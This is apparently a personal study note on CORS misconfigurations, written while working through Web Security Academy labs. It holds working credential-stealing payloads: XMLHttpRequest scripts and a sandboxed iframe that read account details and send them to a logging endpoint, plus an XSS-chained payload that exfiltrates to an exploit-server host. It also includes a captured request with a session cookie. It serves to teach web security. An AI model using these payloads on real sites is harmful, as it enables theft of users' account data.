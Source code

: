 # CORS

Created: April 29, 2025 9:58 PM

The main point of CORS is to protect a website from unrestricted AJAX interactions (fetch, XMLHttpRequest). It is not designed to protect from CSRF.
CORS establishes a “trust connection” between a source domain and domains that are mentioned in CORS configuration (or all, if *). Those domains can use AJAX to access the sources of the website.

![image.png](CORS%201e4021737a898019b3cad0e6d4b3164b/image.png)

CORS is usually spottable by the presence of 2 following headers:

```bash
Access-Control-Allow-Origin: https://website.com
Access-Control-Allow-Credentials: true
```

1st specifies the domain allowed to fetch resources, 2nd specifies whether the credential cookies will be attached to a CORS request. Without them, authentication is not possible and CORS only applies for public resources.

![image.png](CORS%201e4021737a898019b3cad0e6d4b3164b/image%201.png)

![image.png](CORS%201e4021737a898019b3cad0e6d4b3164b/image%202.png)

```bash
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a5b008b0368fed9801bdf6300df003b.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        window.location.href='/log?key='+req.responseText;
    };
</script>
```

![image.png](CORS%201e4021737a898019b3cad0e6d4b3164b/image%203.png)

![image.png](CORS%201e4021737a898019b3cad0e6d4b3164b/image%204.png)

CORS common flaws:
1) Accepting all domains (Access-Control-Allow-Origin: *)

2) Accepting null Origin (in request - Origin: null)

```bash
GET /accountDetails HTTP/2
Host: 0abd0014049f6bdb8231dd9800dc00e2.web-security-academy.net
Cookie: session=vlLNwInHMRmO4wGGY1yN3Domuf2YukDc
Sec-Ch-Ua: "Chromium";v="123", "Not:A-Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Sec-Ch-Ua-Platform: "Linux"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0abd0014049f6bdb8231dd9800dc00e2.web-security-academy.net/my-account?id=wiener
Origin: null
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i
```

![image.png](CORS%201e4021737a898019b3cad0e6d4b3164b/image%205.png)

```bash
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0abd0014049f6bdb8231dd9800dc00e2.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        window.location.href='/log?key='+encodeURIComponent(req.responseText);
    };
</script>"></iframe>
```

---

XSS + CORS from trusted subdomain

```bash
<script>
    document.location="http://stock.0a9600c30387ddd28063c1a100060095.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a9600c30387ddd28063c1a100060095.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a4200bd0338dd8d80f4c0320198005b.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

---

![image.png](CORS%201e4021737a898019b3cad0e6d4b3164b/image%206.png)

---

## How to defend from CORS vulnerabilities

![image.png](CORS%201e4021737a898019b3cad0e6d4b3164b/image%207.png)

![image.png](CORS%201e4021737a898019b3cad0e6d4b3164b/image%208.png)

![image.png](CORS%201e4021737a898019b3cad0e6d4b3164b/image%209.png)

![image.png](CORS%201e4021737a898019b3cad0e6d4b3164b/image%2010.png)